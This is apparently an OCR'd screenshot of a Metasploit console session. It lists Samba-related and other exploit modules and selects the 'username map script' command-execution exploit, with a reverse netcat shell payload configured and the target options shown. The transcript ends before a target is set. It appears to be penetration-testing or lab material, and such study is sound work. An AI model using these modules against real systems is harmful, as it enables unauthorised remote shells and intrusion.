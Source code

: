 ```
   3   auxiliary/dos/samba/read_nttrans_ea_list                              normal     No     Samba read_nttrans_ea_list Integer Overflow
   4   auxiliary/scanner/rsync/modules_list                                  normal     No     List Rsync Modules
   5   auxiliary/scanner/smb/smb_uninit_cred                                 normal     Yes    Samba _netr_ServerPasswordSet Uninitialized Credential State
   6   exploit/freebsd/samba/trans2open                     2003-04-07       great      No     Samba trans2open Overflow (*BSD x86)
   7   exploit/linux/samba/chain_reply                      2010-06-16       good       No     Samba chain_reply Memory Corruption (Linux x86)
   8   exploit/linux/samba/is_known_pipename                2017-03-24       excellent  Yes    Samba is_known_pipename() Arbitrary Module Load
   9   exploit/linux/samba/lsa_transnames_heap              2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
   10  exploit/linux/samba/setinfopolicy_heap               2012-04-10       normal     Yes    Samba SetInformationPolicy AuditEventsInfo Heap Overflow
   11  exploit/linux/samba/trans2open                       2003-04-07       great      No     Samba trans2open Overflow (Linux x86)
   12  exploit/multi/samba/nttrans                          2003-04-07       average    No     Samba 2.2.2 - 2.2.6 nttrans Buffer Overflow
   13  exploit/multi/samba/usermap_script                   2007-05-14       excellent  No     Samba "username map script" Command Execution
   14  exploit/osx/samba/lsa_transnames_heap                2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   15  exploit/osx/samba/trans2open                         2003-04-07       great      No     Samba trans2open Overflow (Mac OS X PPC)
   16  exploit/solaris/samba/lsa_transnames_heap            2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   17  exploit/solaris/samba/trans2open                     2003-04-07       great      No     Samba trans2open Overflow (Solaris SPARC)
   18  exploit/unix/http/quest_kace_systems_management_rce  2018-05-31       excellent  Yes    Quest KACE Systems Management Command Injection
   19  exploit/unix/misc/distcc_exec                        2002-02-01       excellent  Yes    DistCC Daemon Command Execution
   20  exploit/unix/webapp/citrix_access_gateway_exec       2010-12-21       excellent  Yes    Citrix Access Gateway Command Execution
   21  exploit/windows/fileformat/ms14_060_sandworm         2014-10-14       excellent  No     MS14-060 Microsoft Windows OLE Package Manager Code Execution
   22  exploit/windows/http/sambar6_search_results          2003-06-21       normal     Yes    Sambar 6 Search Results Buffer Overflow
   23  exploit/windows/license/calicclnt_getconfig          2005-03-02       average    No     Computer Associates License Client GETCONFIG Overflow
   24  exploit/windows/smb/group_policy_startup             2015-01-26       manual     No     Group Policy Script Execution From Shared Resource
   25  post/linux/gather/enum_configs                                        normal     No     Linux Gather Configurations


Interact with a module by name or index. For example info 25, use 25 or use post/linux/gather/enum_configs

msf6 > use 13
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > options 

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   139              yes       The target port (TCP)

```